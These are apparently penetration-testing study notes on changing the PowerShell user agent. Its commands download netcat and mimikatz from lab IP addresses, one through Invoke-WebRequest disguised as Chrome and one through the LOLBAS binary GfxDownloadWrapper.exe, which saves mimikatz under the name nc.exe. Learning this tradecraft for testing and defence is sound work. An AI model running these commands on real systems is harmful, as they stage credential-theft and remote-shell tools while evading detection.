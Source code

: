 
### Changing User Agent

Listing out User Agents
```powershell-session
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Invoke-WebRequest has a parameter to change the user agent/

```powershell-session
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
```
```powershell-session
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

You can also use LOLBAS or GTFOBins techniques
```powershell-session
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

